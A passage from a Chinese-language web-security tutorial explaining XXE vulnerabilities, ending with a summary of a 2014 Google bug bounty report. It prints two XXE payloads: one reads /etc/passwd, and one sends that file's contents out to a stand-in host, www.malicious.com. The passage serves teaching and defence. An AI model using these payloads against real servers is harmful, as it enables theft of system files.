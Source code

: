 ```xml
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [ 
<!ELEMENT foo ANY > 
<!ENTITY xxe SYSTEM "file:///etc/passwd" > 
]> 
<foo>&xxe;</foo>
```

就像你现在了解的那样，当这个文件被解析时，我的解析器会收到它，并且看到内部 DTD 定义了`foo`文档类型，告诉它`foo`可以包含任何可解析的数据，并且有个`!ENTITY xxe`，它应该读取我的`/etc/passwd`文件（`file://`的用法表示`/etc/passwd`的完整的文件 URL 路径），并会将`&xxe;`替换为这个文件的内容。之后你以定义`<foo>`标签的有效 XML 结束了它，这会打印出我的服务器数据。这就是 XXE 危险的原因。

但是等一下，还有更多的东西。如果应用不打印出回应，而是仅仅解析你的内容会怎么样？使用上面的例子，内容会解析但是永远不会反回给我们。好吧，如果我们不包含本地文件，而是打算和恶意服务器通信会怎么样？像是这样：

```xml
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [ 
<!ELEMENT foo ANY > 
<!ENTITY % xxe SYSTEM "file:///etc/passwd" > 
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;"> 
]> 
<foo>&callhome;</foo>

```

在解释它之前，你可能已经注意到我在`callhome` URL 中使用了`%`来代替`&`，`%xxe`。这是因为`%`用于实体在 DTD 定义内部被求值的情况，而`&`用于实体在 XML 文档中被求值的情况。现在，当 XML 文档被解析，` callhome !ENTITY `会读取`/etc/passwd`的内容，并远程调用`http://www.malicous.com`，将文件内容作为 URL 参数来发送，因为我们控制了该服务器，我们可以检查我们的日志，并且足够确保拥有了`/etc/passwd`的内容。Web 应用的游戏就结束了。

所以，站点如何防范 XXE 漏洞？它们可以禁止解析任何外部实体。

> 链接

> 查看 [OWASP 外部实体（XXE）解析](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing)

> [XXE 速查表](http://www.silentrobots.com/blog/2014/09/02/xe-cheatsheet)

## 示例

### 1\. Google 的读取访问

难度：中

URL：`google.com/gadgets/directory?synd=toolbar `

报告链接：`https://blog.detectify.com/2014/04/11/how-we-got-read-access-on-googles-production-servers`

报告日期：2014.4

奖金：$10000

描述：

了解 XML 以及外部实体之后，这个漏洞实际上就非常直接了。Google 的工具栏按钮允许开发者定义它们自己的按钮，通过上传包含特定元数据的 XML 文件。

但是，根据 Detectify 小组，通过上传带有` !ENTITY `，指向外部文件的 XML 文件，Google 解析了该文件，并渲染了内容。因此，小组使用了 XXE 漏洞来渲染服务器的`/etc/passwd`文件。游戏结束。
